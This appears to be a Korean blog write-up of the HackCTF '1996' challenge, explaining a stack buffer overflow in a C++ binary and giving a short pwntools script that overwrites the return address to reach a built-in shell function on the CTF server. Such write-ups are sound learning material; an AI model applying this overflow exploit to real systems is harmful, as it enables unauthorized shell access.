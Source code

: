 ```yaml
---
layout: post
title:  "HacCTF 1996 write-up"
date:   2020-01-11 19:45:55
image:  hackctf_1996.PNG
tags:   [HackCTF]
categories: [Write-up]
---
```



### 1.  문제

![]({{ site.baseurl }}/images/write-up/HackCTF/HackCTF%201996/Untitled.png)
  
NX 비트가 걸려있다

![]({{ site.baseurl }}/images/write-up/HackCTF/HackCTF%201996/Untitled%201.png)  
프로그램을 실행하면 다음과 같이 나온다. 어떠한 환경 변수를 읽고 싶은지 묻고 입력을 하면 입력한 값을 출력해주고 끝나게 된다

![]({{ site.baseurl }}/images/write-up/HackCTF/HackCTF%201996/Untitled%202.png)  
코드를 보면 C++ 코드로 구성된것을 알 수 있다.

코드만 보면 v3을 v4에 넣고 v7, v8 이걸 v9에 넣고,,, 복잡하다.

![]({{ site.baseurl }}/images/write-up/HackCTF/HackCTF%201996/Untitled%203.png)  
그리고  shell을 실행시키는 함수가 내장되어 있으므로 이를 이용해서 푸는 문제인 것 같다

<br><br>
### 2. 접근방법

복잡할 것 같지만 다 훼이크이고 std cin을 이용해 name 변수를 통한 bof로 문제를 풀면 끝날 것 같다

name 부터 ret 까지 1048 크기이니 1048+ spawn_shell 주소 이렇게 주면 된다
<br><br><br>
### 3. 풀이

최종 익스 코드는 다음과 같다  
```python
from pwn import *

p = remote("ctf.j0n9hyun.xyz",3013)

p.recvuntil("Which environment variable do you want to read?")

payload = "A"*1048
payload += p64(0x0000000000400897)

p.sendline(payload)
p.interactive()
```

<br><br>
### 4. 몰랐던 개념

쫄지말자
